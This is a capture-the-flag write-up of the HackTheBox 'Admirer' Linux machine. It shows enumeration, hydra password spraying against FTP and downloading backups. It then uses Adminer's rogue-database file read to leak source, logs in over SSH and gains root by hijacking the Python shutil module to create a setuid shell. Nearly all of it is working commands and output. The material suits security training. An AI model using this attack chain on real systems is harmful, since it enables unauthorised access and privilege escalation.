

# Target
| Category          | Details                                                                      |
|-------------------|------------------------------------------------------------------------------|
| 📝 **Name**       | [Admirer](https://app.hackthebox.com/machines/Admirer)                       |  
| 🏷 **Type**       | HTB Machine                                                                  |
| 🖥 **OS**         | Linux                                                                        |
| 🎯 **Difficulty** | Easy                                                                         |
| 📁 **Tags**       | Web enumeration, Password spraying, Admirer, Docker, Python module hijacking |

# Scan
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Attack path
1. [Enumerate disallowed (in robots.txt) `/admin-dir`](#enumerate-disallowed-in-robotstxt-admin-dir)
2. [Exfiltrate backup over FTP server using discovered credentials](#exfiltrate-backup-over-ftp-server-using-discovered-credentials)
3. [Read `index.php` using Arbitrary File Read vulnerability in Adminer 4.6.2 (CVE-2021-43008)](#read-indexphp-using-arbitrary-file-read-vulnerability-in-adminer-462-cve-2021-43008)
4. [Escalate to `root` user by hijacking a Python module in script run with `root` privileges](#escalate-to-root-user-by-hijacking-a-python-module-in-script-run-with-root-privileges)

### Enumerate disallowed (in robots.txt) `/admin-dir`
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ feroxbuster --url http://$TARGET/admin-dir/ -w /usr/share/wordlists/dirb/big.txt -x txt --silent
http://10.129.229.101/admin-dir/admin-dir
http://10.129.229.101/admin-dir/contacts.txt
http://10.129.229.101/admin-dir/credentials.txt 
```

#### Prepare list of potential users based on discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ cat <<'EOF'> users.txt
penny
p.wise
rajesh
r.nayyar
amy
a.bialik
leonard
l.galecki
howard
h.helber
bernadette
b.rauch
waldo
w.cooper
ftpuser
admin
EOF
```

#### Prepare list of potential password based on discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ cat <<'EOF'> passwords.txt
fgJr6q#S\W:$P
%n?4Wz}R$tTF7
w0rdpr3ss01!
EOF
```

#### Spray discovered credentials over FTP server
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ hydra -I -L users.txt -P passwords.txt ftp://$TARGET 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-23 17:43:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 48 login tries (l:16/p:3), ~3 tries per task
[DATA] attacking ftp://10.129.229.101:21/
[21][ftp] host: 10.129.229.101   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
```

### Exfiltrate backup over FTP server using discovered credentials

#### Gain access to FTP server using discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ ftp 'ftp://ftpuser:%n?4Wz}R$tTF7'@$TARGET
Connected to 10.129.229.101.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||39889|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```

#### Exfiltrate `dump.sql`
```
ftp> get dump.sql
local: dump.sql remote: dump.sql
229 Entering Extended Passive Mode (|||42358|)
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
100% |*******************************************************************************************************************************************************|  3405       54.12 MiB/s    00:00 ETA
226 Transfer complete.
3405 bytes received in 00:00 (133.04 KiB/s)
```

#### Exfiltrate `html.tar.gz`
```
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
229 Entering Extended Passive Mode (|||11847|)
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
100% |*******************************************************************************************************************************************************|  5147 KiB    2.28 MiB/s    00:00 ETA
226 Transfer complete.
5270987 bytes received in 00:02 (2.25 MiB/s)
```

#### Investigate directory structure of exfiltrated backup
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ mkdir html && tar -zxf html.tar.gz -C html && tree html/utility-scripts
html/utility-scripts
├── admin_tasks.php
├── db_admin.php
├── info.php
└── phptest.php

1 directory, 4 files
```

#### Enumerate `/utility-scripts` path discovered in exfiltrated backup
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ feroxbuster --url http://$TARGET/utility-scripts -w /usr/share/wordlists/dirb/big.txt -x php --silent

http://10.129.229.101/utility-scripts
http://10.129.229.101/admin-dir
http://10.129.229.101/utility-scripts/adminer.php
http://10.129.229.101/utility-scripts/info.php
http://10.129.229.101/utility-scripts/phptest.php
```

### Read `index.php` using Arbitrary File Read vulnerability in Adminer 4.6.2 ([CVE-2021-43008](https://nvd.nist.gov/vuln/detail/cve-2021-43008))

#### Host `mariadb` database
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ {cat <<'EOF'> init.sql
CREATE DATABASE IF NOT EXISTS lfi_db;
USE lfi_db;
CREATE TABLE IF NOT EXISTS lfi_table (file VARCHAR(255));
EOF
} && sudo docker run -d \
  --name mariadb-container \
  -e MARIADB_ROOT_PASSWORD=pass \
  -v ./init.sql:/docker-entrypoint-initdb.d/init.sql:ro \
  -p 127.0.0.1:3306:3306 \
  mariadb:10.5
529adea6cebbe743f72999bba444c7e32504c454697c3d25fe1c30cf3a001953
```

#### Expose database port with `socat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
sudo socat TCP-LISTEN:3306,bind=$LHOST,fork TCP:127.0.0.1:3306
```

#### Login to hosted database using Adminer


#### Load `index.php` to `lfi_table`
Execute following SQL using `SQL command`
```
LOAD DATA local INFILE '../index.php' INTO TABLE lfi_table fields TERMINATED BY "\n";
```

#### Read `index.php` from `lfi_table`
Execute following SQL using `SQL command`
```
SELECT * FROM lfi_table;
```

#### Use discovered credentials to gain foothold over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ ssh waldo@$TARGET
waldo@10.129.229.101's password: 
Linux admirer 4.9.0-19-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Fri May 23 16:20:43 2025 from 10.10.14.161
waldo@admirer:~$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
```

### Escalate to `root` user by hijacking a Python module in script run with `root` privileges

#### Discover `SETENV` permission for `/opt/scripts/admin_tasks.sh`
```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

#### Hijack `shutil` Python module
`/opt/scripts/admin_tasks.sh` is calling `/opt/scripts/backup.py` which is executing `from shutil import make_archive`. With `SETENV` we will set `PYTHONPATH` to directory that contains `make_archive` that will create root shell.
```
waldo@admirer:~$ { cat <<'EOF'> /tmp/shutil.py
import os
def make_archive(*args, **kwargs):
    os.system("/bin/cp /bin/bash /tmp/root_shell; /bin/chmod +s /tmp/root_shell")
    exit
EOF
} && echo 6 | sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh && sleep 1 && /tmp/root_shell -p

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: Running backup script in the background, it might take a while...
root_shell-4.4# id
uid=1000(waldo) gid=1000(waldo) euid=0(root) egid=0(root) groups=0(root),1000(waldo),1001(admins)
```